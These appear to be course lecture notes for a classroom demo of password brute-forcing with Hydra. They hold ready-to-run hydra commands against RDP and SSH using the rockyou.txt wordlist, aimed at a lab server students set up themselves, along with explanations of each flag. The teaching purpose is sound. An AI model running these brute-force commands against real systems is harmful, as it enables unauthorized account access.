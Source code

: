 - &shy;**Example: Bruteforce RDP**

  `hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP` 

NOTE:

https://github.com/vanhauser-thc/thc-hydra
https://noxtal.com/cheatsheets/2020/07/24/hydra-cheatsheet/

---


# Demo

NOTE:

- Show students how to set a hilariously weak password in their target SSH server.
  - Create a profile in the Ubuntu "users" panel.
  - In command line use sudo passwd [username] to set a terrible password.
  - Show hydra brute force attack.

    `hydra -t 10 -V -f -l ubuntu -x 6:6:a ssh://192.168.0.237`

  - This will take a while! Next, show where rockyou.txt is stored in Kali.

    `cd /usr/share/wordlist/`

  - Unzip it first.

    `sudo gzip -d /usr/share/wordlists/rockyou.txt.gz`

  - Now you should have a rockyou.txt file ready to go. Take a peek inside!

    `vim rockyou.txt`

  - Pass rockyou.txt into Hydra and perform a dictionary attack.

    `hydra -t 4 -V -f -l notahacker -P rockyou.txt ssh://192.168.0.237`

- From ref:
  - `-t 4` - This sets the number of tasks that can run parallel together in this example I have used 4 which will send 4 logins at a time. RDP does not like too many connections at the same time so try and keep it at a maximum of 4. It is sometimes worth adding a -w to your command to add a wait between attempts.
  - `-V` - Verbose this shows you which usernames and passwords on screen as it’s working.
  - `-f` - Quits once you have found a positive Username and Password match.
  - `-l` - administrator – Use the username administrator to attempt to login.
  - `-P` - rockyou.txt– This is the word list that we will be pulling passwords from.
  - `ssh://192.168.34.16` - This is the service we want to attack and the IP address.
